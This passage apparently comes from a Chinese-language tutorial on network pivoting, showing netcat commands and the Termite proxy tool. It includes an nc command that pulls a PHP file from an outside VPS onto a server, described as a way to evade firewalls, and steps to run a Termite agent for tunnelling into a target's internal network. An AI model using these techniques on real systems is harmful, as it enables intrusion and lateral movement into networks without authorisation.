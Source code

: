 ```
#服务器执行命令下载192.168.1.10:9992端口文件，并把文件存到当前目录文件夹2.php
nc 192.168.1.10 9992 >2.php
```

vps 本地监听，服务器连接 vps 可以将文件下载到本地。可利用此特性躲避防火墙。

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0cjRGbZnxiaKt0Kfk0TesPTLFickeesTMCxiatSmnYcDicc8j0yQiaRMx15w/640?wx_fmt=png)  

### **2.4 NC 通信**  

```
#开启监听
nc -l -p 12345
#连接。形成不加密聊天室
nc 192.168.1.10 12345
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0WXxdBeeVIevqZrgAvgWOibVcxP2KicOOD1bDdpcHnth1RMX6FzPEpicjw/640?wx_fmt=png)  

**3.Termite 工具**  

-------------------

```
#软件作者教学视频：
http://rootkiter.com/toolvideo/toolmp4/1maintalk.mp4
http://rootkiter.com/toolvideo/toolmp4/2socks.mp4
http://rootkiter.com/toolvideo/toolmp4/3lcxtran.mp4
http://rootkiter.com/toolvideo/toolmp4/4shell.mp4
http://rootkiter.com/toolvideo/toolmp4/5file.mp4
#项目地址: 
http://rootkiter.com/Termite
```

Termite 是一款极度小巧灵活的跳板机。程序分为两部分, admin(控制端) 和 agent(代理端节点),admin 和 agent 所有选项用途均一致：

```
\-l 指定本地socks端口,等待远程连接
 -c 指定远程socks机器ip
 -p 指定远程socks机器端口
```

### **3.1 本地模拟环境**

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0oeaiamfA1y0CG9pHZjPXU4r4Sd5JMWicInqibCPX6Uib8QBbHlexxTjxSw/640?wx_fmt=png)

最终目的：通过 Termite 工具代理使物理机灵活穿梭于目标内网 (目前物理机只能和 win08 桥接网卡通信)  

### **3.2 正向连接**

①win08 本地监听

```
agent\_win32.exe -l 6666
```

